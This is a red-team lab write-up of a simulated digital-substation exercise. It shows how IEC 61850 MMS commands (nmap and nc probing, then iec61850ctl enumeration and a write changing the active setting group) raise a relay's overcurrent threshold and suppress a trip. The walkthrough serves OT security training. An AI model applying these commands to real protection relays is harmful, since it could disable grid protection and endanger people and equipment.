







# Prabal Urja | Scenario 05 | Red Team Write-up

**Challenge:** Native IEC 61850 protection setting-group manipulation  
**Exercise type:** Authorised OT cyber-range, simulated digital substation  
**Attack workstation:** Intel macOS, `PREKSHAs-MacBook-Air`  
**Target:** `<ip>:102`, simulated IEC 61850 MMS IED `PU-DSS-IED-01`  
**Tool verified in the exercise:** `iec61850ctl` v0.6.0 (`darwin/amd64`)  
**Evidence date:** 31 October 2026  
**Result:** Remote MMS setting-group change proven, threshold changed to 1600 A, simulated protection failure proven by instructor fixture

> **Scope and accuracy.** This is a reproducible walkthrough of the actual isolated Prabal Urja lab. The commands and output described as **observed** came from the user's screenshots or terminal results. Commands labelled **recommended**, **optional**, or **instructor-only** must not be represented as actions captured during the original attack. It is a simulated IED running libIEC61850, not a real utility relay or a disclosed vendor vulnerability. The original package does not implement electrical islanding or GOOSE exploitation.

## 1. Scenario and objective

A digital substation relay monitors a modelled feeder. An approved protection setting group (group 1) uses an overcurrent threshold of **800 A**. A second commissioning setting group (group 2) uses **1600 A**. The simulated relay accepts activation of another setting group through IEC 61850 MMS without independently checking commissioning approval. This creates an engineering-authorisation weakness.

The attacker objective is not to crash TCP/102. It is to use a **real MMS operation** to activate group 2, verify the change independently through MMS, and demonstrate why the same 1300 A test no longer trips the simulated protection. The instructor, not the attacker, applies the test current.

| State | Approved baseline | Attacker-selected setting |
|---|---:|---:|
| Active setting group | 1 | 2 |
| Overcurrent pickup | 800 A | 1600 A |
| Response to 1300 A fault | Trip expected | No trip expected |
| Transport | IEC 61850 MMS over TCP/102 | IEC 61850 MMS over TCP/102 |

**Protocol details:** `LLN0.SGCB.ActSG` is the active setting-group control; `PTOC1.StrVal.setMag` represents the modelled pickup threshold with functional constraint `SG`; `PTOC1.Op.stVal` reports protection operation with functional constraint `ST`. `MMXU1`, `PTRC1` and `XCBR1` represent measurements, trip conditioning and breaker state. The device identifier is `PU-DSS-IED-01LD0`.

## 2. Network path and tools

```text
Mac Red Team workstation
    |
    |  IEC 61850 MMS client / TCP port 102
    v
<ip>:102 -> PU-DSS-IED-01LD0 / LLN0.SGCB
    |
    v
Native libIEC61850 IED server -> protection-state model
    |
    +-> Read-only simulated operator view on TCP/8098
    +-> Instructor-only current injection on Ubuntu
```

The exercise started from the Mac, not from an interactive shell on the Ubuntu IED. The Ubuntu machine was used by an instructor to deploy the range, run the independent fault fixture and evaluate the service-availability TTP. No SSH session or server-side file edit was used for the Red Team setting-group write.

**Tool provenance:** The participant installed the prebuilt `iec61850ctl` v0.6.0 binary for `darwin/amd64` from the upstream releases at <https://github.com/otfabric/iec61850ctl/releases>. The downloaded archive passed SHA-256 verification, and `iec61850ctl version` printed `0.6.0` (observed in terminal conversation; no separate screenshot provided). Installation of Qt/QTester104 was unnecessary for this scenario.

**On other operating systems:** Select an asset matching the operating system and CPU architecture from the upstream release listing, verify its supplied checksum, and execute the tool locally. Windows/Linux commands are not claimed as tested during this Mac-based run. Do not rename an ARM64 binary as AMD64 or assume the same shell syntax across platforms.

## 3. Reconnaissance: identify the service

**Required first reconnaissance step for the final participant write-up. Not present in the original screenshot set:** from the Mac, run a narrow authorised Nmap service scan against the allocated scenario host.

```bash
nmap -Pn -sT -p 102,8098 --reason <ip>
```

**Why:** Identify whether the IEC 61850 MMS port is reachable and whether the simulated operator view is exposed. `-Pn` avoids reliance on ICMP discovery when the lab blocks ping; `-sT` uses a TCP connect scan; `-p` limits scope to the two relevant ports. Nmap alone cannot prove IEC 61850 application communication.

**Observed TCP connectivity and native MMS discovery (the recorded live exercise started here):**

```bash
export TARGET_IP=<ip>
nc -G 3 -vz "$TARGET_IP" 102 && iec61850ctl list lds --host "$TARGET_IP" --port 102
```

`nc` proved TCP/102 accepted the socket connection. The next command initiated a native MMS association and requested the available logical devices. The output included:

```text
Connection to <ip> port 102 [tcp/iso-tsap] succeeded!
Found 1 logical device(s):
1. PU-DSS-IED-01LD0
```



## 4. Enumerate the IEC 61850 model

```bash
iec61850ctl list lns --host <ip> --port 102 --ld PU-DSS-IED-01LD0
iec61850ctl get object --host <ip> --port 102 --object PU-DSS-IED-01LD0/PTOC1.Op.stVal --fc ST
```

**Why:** Logical-device enumeration leads to logical-node enumeration; a read of `PTOC1.Op.stVal` establishes whether the protection element is currently reporting operation. `--fc ST` specifies status data, rather than a setpoint or control operation.

**Observed result:** `LLN0`, `MMXU1`, `PTOC1`, `PTRC1` and `XCBR1` were listed; `PTOC1.Op.stVal` was `false`. That means there was no active trip at the time of the read. It does **not** prove that all protection is healthy.



## 5. Discover the type requirement and attempt a setting-group change

The first MMS write used the wrong value type:

```bash
iec61850ctl set object --host <ip> --port 102 --object 'PU-DSS-IED-01LD0/LLN0.SGCB.ActSG' --fc SP --type int --value 2 --format json
```

**Observed:** `write_ok: false` and `mms: data access error: TypeInconsistent`. The session and object reference were reachable, but the value did not conform to the server's expected MMS type. This is useful evidence of protocol-layer validation, not successful exploitation.



The successful attempt used the client-supported unsigned type:

```bash
iec61850ctl set object --host <ip> --port 102 --object 'PU-DSS-IED-01LD0/LLN0.SGCB.ActSG' --fc SP --type uint --value 2 --format json
```

**What it does:** `set object` sends a protocol write for the active setting-group control; `--type uint` matches the relevant unsigned integer representation; `--value 2` selects the commissioning group. The server's libIEC61850 SGCB handler accepts valid groups 1 and 2 without verifying an independent change approval. This is the deliberately weak control in the lab.

**Observed:** `"requested_value": 2` and `"write_ok": true`.



**Why this matters:** A TCP connection by itself does not compromise a relay. Here, the actual industrial application accepted a configuration-changing MMS request and updated its selected setting group. This is a reproducible application-authorisation issue, not a memory corruption exploit.

## 6. Verify the change independently

Read the setting-group field back over the industrial protocol, then observe the process model as an independent cross-check:

```bash
iec61850ctl get object --host <ip> --port 102 --object 'PU-DSS-IED-01LD0/LLN0.SGCB.ActSG' --fc SP
curl -fsS http://<ip>:8098/api/state
```

**Observed:** MMS returned `Value: 2`. The simulated operator state showed `active_setting_group: 2`, `threshold_amps: 1600.0`, `protection_trip: false` and `breaker_closed: true`.



To avoid relying only on the HMI, read the pickup setting *directly* using MMS:

```bash
iec61850ctl get object --host <ip> --port 102 --object 'PU-DSS-IED-01LD0/PTOC1.StrVal.setMag' --fc SG
```

**Observed:** `Value: 1600`. This is the strongest direct proof that the active simulated protection pickup changed from the approved 800 A value.



## 7. Independently prove the protection consequence

**Instructor-only command, executed on the Ubuntu scenario machine (not part of the Mac attack):**

```bash
sudo bash /opt/prabal-urja/scenario5/tools/instructor_fault_test.sh 1300
sudo python3 /opt/prabal-urja/scenario5/tools/service_availability.py
```

The fixture writes a bounded test current to a root-controlled local file, and the native simulated IED evaluates it against the **currently selected** setting group. This is an independent process test, not an attacker HTTP endpoint.

**Observed simulation output:**

```json
{
  "asset": "PU-DSS-IED-01",
  "active_setting_group": 2,
  "threshold_amps": 1600.0,
  "last_test_current_amps": 1300.0,
  "last_test_group": 2,
  "last_test_trip": false,
  "protection_trip": false,
  "breaker_closed": true
}
```

```text
SERVICE_STATUS:DOWN | REASON:PROTECTION_RESPONSE_SUPPRESSED
```



**Technical interpretation:** The same 1300 A test is greater than the group-1 800 A threshold but below the group-2 1600 A threshold. Therefore, the model did not trip and the breaker stayed closed. The test demonstrates a protection blind spot **inside this simulator**. It does not claim a physical current was injected, a vendor relay was exploited, or the grid was islanded.

## 8. TTP scoring and what qualifies as success

The original distributed TTP evaluated the native MMS read together with the independently recorded fault outcome. During testing, the local TTP command was later replaced with an inline shell expression using the installed MMS client and `jq`. **That modified local TTP is not contained in the original ZIP**. Keep the deployed TTP and this write-up together when publishing the final range.

| Evidence tier | Observed result | Interpretation |
|---|---|---|
| Reachability | TCP/102 open | Network route exists |
| MMS discovery | Logical device/nodes enumerated | Native industrial protocol worked |
| Write result | `write_ok: true` | Group-selection command accepted |
| MMS readback | `ActSG = 2`; threshold `1600` | Changed configuration confirmed |
| Independent test | 1300 A, no trip | Simulated protection impact confirmed |
| Final scorer | `SERVICE_STATUS:DOWN` | Lab's attack-impact condition satisfied |

**Do not treat group 2 alone as proven protection failure.** The final fault test is the independent proof. Likewise, a `DOWN` result caused only by an MMS process outage is not proof of setting-group manipulation.
